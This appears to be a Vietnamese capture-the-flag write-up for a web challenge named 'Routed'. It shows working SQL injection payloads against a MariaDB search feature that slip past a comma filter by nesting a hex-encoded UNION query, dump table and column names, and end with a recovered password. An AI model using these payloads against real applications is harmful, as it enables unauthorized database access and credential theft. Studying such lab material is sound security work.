





mình check feature search, vì login có vẻ không đấm được

payload `admin'`

server dùng MariaDB

truyền payload `admin'union select 1,2 --`

có vẻ nó đã có filter, sau 1 hồi thử sai mình tóm gọn lại nó filter 1 số input sau: `dấu phẩy(,) | or | orderby `

ngồi nhìn lại tiêu đề chall là `Routed`, mình nảy ra âu hỏi, nếu nó filter dấu phẩy để tránh mình truy vấn thêm cột thì mình có thể lồng thêm 1 câu truy vấn nữa vào câu truy vấn trước đó không ?

tiến hành exploit bằng cách thử sai để chứng minh

payload: 
`
-999'union select 0x2E312720756E696F6E2073656C65637420312C2873656C6563742067726F75705F636F6E636174287461626C655F6E616D65292066726F6D20696E666F726D6174696F6E5F736368656D612E7461626C6573207768657265207461626C655F736368656D613D64617461626173652829292D2D202D
`

trong đó dãy hex sai khi decode ta thu được
`.1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database())-- -`

lấy tên cột
payload: `-9'union select 0x2E312720756E696F6E2073656C65637420312C2873656C6563742067726F75705F636F6E63617428636F6C756D6E5F6E616D65292066726F6D20696E666F726D6174696F6E5F736368656D612E636F6C756D6E73207768657265207461626C655F6E616D653D27757365727327292D2D202D-- -
`

lấy password

`soong1002chanqua`

